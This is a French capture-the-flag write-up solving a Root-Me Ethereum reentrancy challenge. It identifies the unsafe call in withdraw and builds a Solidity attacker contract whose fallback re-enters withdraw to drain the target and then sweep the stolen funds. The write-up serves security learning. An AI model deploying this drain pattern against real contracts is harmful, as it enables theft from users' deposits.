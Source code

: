 # Ethereum - Reentrancy
## 40 Points
### Poupées russes

## Énoncé
La société où vous êtes employé a décidé de copier le concept du célèbre token "Wrapped Ether (WETH)". Elle a récupéré un code source depuis internet et a publié son smart contract sans le contrôle d’un développeur Solidity, afin de limiter ses dépenses. Elle y dépose 0.1 ETH de garantie pendant la création du smart contract. Vous êtes sceptique quant à la sécurité de ce smart contract.

Votre objectif : voler les fonds déjà déposés de la société pour prouver à votre patron qu’il se trompe avant que des clients qui déposeraient de l’argent soient lésés !

## Solution

Le but de ce challenge est de vider le compte de la personne possédant tout sur le contrat Reentrancy. Comme son nom l'indique, il faut faire une Reentrancy Attack. Voici un schéma qui explique comment marche l'attaque pour y voir un peu plus clair:

![image](./ReentrancyExplanation.webp)

Aux premiers abords, on ne trouve pas de faille. Si on s'y connait on peut directement aperçevoir la ligne très douteuse au sein de la fonction **withdraw**:
```Solidity
msg.sender.call.value(wad)("");
```
Ou sinon, on peut utiliser l'outils **Slither**, grâce auquel, en une ligne de commande, on peut aperçevoir les problèmes de sécurité à l'intérieur du contrat que l'on donne en argument:

```Bash
slither Reentrancy.sol
```

C'est ce que j'ai fait, et j'ai stocké les résultats [ici](./slither-result.txt).

A partir de ça j'ai fait mes recherches, et je suis tombé sur un très bon site qui explique comment marche, et c'était d'autant plus intéressant car cela expliquait avec éxactement le même cas de figure que le challenge: avec un contrant en solidity ^0.5.0.
[Lien du site.](https://medium.com/@secureblockchain/blockchain-exploitation-labs-reentrancy-my-notes-2a7ffd9cfe8a)

L'outils dont je me suis aidé pour la compilation et le déploiement des smarts contracts est donné sur la page du challenge: http://remix.ethereum.org/.

Donc j'ai commencé par reprendre le contrat donné pour le challenge, je le compile et déploie sur remix à l'adresse donner lorsque l'on créer une instance sur la page du site de rootme.

En suite, je réalise mon contrat d'attaque ([voir ici](./Attacker.sol)), grâce auquel je vais pouvoir communiquer avec le contrat principale, et cherhcer une manière de vider ses fonds.

Tout d'abord il faut créer une interface reprennant les fonctions withdraw et deposit, les seules dont on a besoin:
```Solidity
interface targetInterface{
    function deposit() external payable;
    function withdraw(uint withdrawAmount) external;
}
```

En suite, initialiser le contrat d'attaque et la target:
```Solidity
contract simpleReentrancyAttack {
    targetInterface bankAddress = targetInterface([target address]);
    uint amount = 0.001 ether;
    [...]
}
```

Maintenant, il faut mettre en place la stratégie d'attaque, il faut avoir un fonction de dépôt, pour envoyer de l'argent au contrat, puis ensuite, fait une fonction qui va récupérer notre argent, et prendre au passage tout le reste:
```Solidity
    function deposit() public payable {
        bankAddress.deposit{value: amount}();
    }

    function attack() public payable {
        bankAddress.withdraw(amount);
    }

    fallback () external payable {
        if (address(bankAddress).balance >= amount){
            bankAddress.withdraw(amount);
        }
    }
```

On rajoute aussi des fonctions pour avoir accès au montant de la balance de la target, et pour pouvoir récupérer les fonds voler sur notre wallet:
```Solidity
    function getTargetBalance() public view returns(uint) {
        return address(bankAddress).balance;
    }

    function retrieveStolenFunds() public {
        payable(msg.sender).transfer(address(this).balance);
    }
```

Le process pour pouvoir faire la reentrancy attaque de notre côté est le suivant:
1. On va envoyer 1 ETH à la target, puis voir si sa balance a augmenté
2. Utiliser la fonction attack et récupérer tout ce qu'il y a dans le contrat
3. Regarder si il reste encore quelque chose dans la balance de la target. Si il n'y a plus rien, c'est que notre attaque a marché, on qu'on peut donc faire retrieveStolenFunds() et récupérer tout ce qu'on a volé.

Lorsque la target est à 0 dans sa balance, on peut donc utiliser la fonction **claim**, puis pour mettre **locked** à false, puis en conséquence, appuyer sur next et récupérer le flag du challenge.
